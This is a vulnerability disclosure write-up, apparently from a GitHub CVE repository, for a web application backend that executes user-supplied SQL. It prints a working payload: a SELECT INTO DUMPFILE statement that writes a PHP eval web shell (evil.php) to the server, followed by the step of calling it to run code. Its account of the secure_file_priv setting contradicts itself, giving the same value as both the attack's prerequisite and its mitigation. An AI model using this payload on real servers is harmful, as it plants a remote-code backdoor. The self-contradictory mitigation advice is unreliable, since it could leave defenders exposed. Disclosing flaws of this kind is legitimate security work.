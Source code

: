 # CVE
## Vulnerability: SQL Statement Execution File Upload Remote Code Execution (RCE)

Accessing the backend:

![image](https://github.com/Teresazdy/CVE/assets/72858713/3d1f8193-9eb2-49af-b6a6-1dacc4c5ee64)

Execute the following SQL statement:

select '<?php eval($_POST[1]);?>' into dumpfile '/Users/zhaozhouqiao/site/evil.php';

You can see that the file has been successfully written.

![image](https://github.com/Teresazdy/CVE/assets/72858713/fe2de9d7-208a-4b6f-bce2-92a9c0a301dc)

Subsequently, access evil.php to execute the code:

![image](https://github.com/Teresazdy/CVE/assets/72858713/3be1ce72-87a2-466f-aa03-14eaffe77cdd)

Note: The prerequisite is that the MySQL variable secure_file_priv must be set to null.

## Code Analysis:
Firstly, in the following code snippet, the content of the POST request is directly passed to the DoExecSql function without any filtering.

![image](https://github.com/Teresazdy/CVE/assets/72858713/88f38910-b703-4ed7-b072-92997893136b)

The code below passes the content of the query variable to DoRunQuery for execution:

![image](https://github.com/Teresazdy/CVE/assets/72858713/1f9c3215-3a7b-4dd1-952c-854d1f973f45)

The execution process lacks any filtering, directly executing the SQL statements provided by the user:

![image](https://github.com/Teresazdy/CVE/assets/72858713/e27ce18f-d942-4d3c-aa82-da5bc9c88ee9)

Therefore, it is possible to achieve arbitrary file upload using statements like select into outfile.

Mitigation Measures: Set secure_file_priv for the MySQL database to null to prevent file uploads.






